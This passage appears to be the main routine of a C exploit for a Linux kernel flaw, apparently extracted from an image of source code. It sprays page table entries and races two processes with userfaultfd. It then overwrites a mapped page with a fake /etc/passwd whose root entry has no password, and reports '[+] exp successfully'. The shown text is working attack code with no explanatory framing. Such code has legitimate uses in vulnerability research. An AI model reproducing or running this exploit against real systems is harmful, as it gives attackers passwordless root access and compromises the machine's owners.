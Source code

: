 ```c
    _exp();
    puts("[*] spray PTE successfully");
    setup(0x1000);
    puts("[*] setup successfully");

    if (fork() == 0) {
        setup_uf(BASE_ADDR, 0x1000, 0);
        puts("[*] child setup userfaultfd done");
        write(target_fd, BASE_ADDR, 1);
        exit(1);
    } else {
        setup_uf(BASE_ADDR, 0x1000, 0);
        puts("[*] parent setup userfaultfd done");
        write(target_fd, BASE_ADDR, 1);
    }

    sleep(2);
    unsigned char fake_etc_passwd[] = ""
        "root::0:0:root:/root:/bin/bash\n"
		"daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n"
		"bin:x:2:2:bin:/bin:/usr/sbin/nologin\n"
		"sys:x:3:3:sys:/dev:/usr/sbin/nologin\n"
		"sync:x:4:65534:sync:/bin:/bin/sync\n"
		"games:x:5:60:games:/usr/games:/usr/sbin/nologin\n"
		"man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n"
		"lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n"
		"mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n"
		"news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n"
		"uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n"
		"proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n"
		"www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n"
		"backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n"
		"list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n"
		"irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\n"
		"gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\n"
		"nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
		"_apt:x:100:65534::/nonexistent:/usr/sbin/nologin";
    int success = 0;
    for (int i = 0; i < (1 << 8)-3; i++) {
        if (read(fd, pte_addr[i], 1) > 0) {
            memcpy(((unsigned char *)pte_addr[i]), fake_etc_passwd, sizeof(fake_etc_passwd));
            msync(pte_addr[i], 0x1000, MS_SYNC);
            success = 1;
            break;
        }
    }

    if (success)
        puts("[+] exp successfully");
    else
        puts("[*] exp failed");

    return 0;
}
```
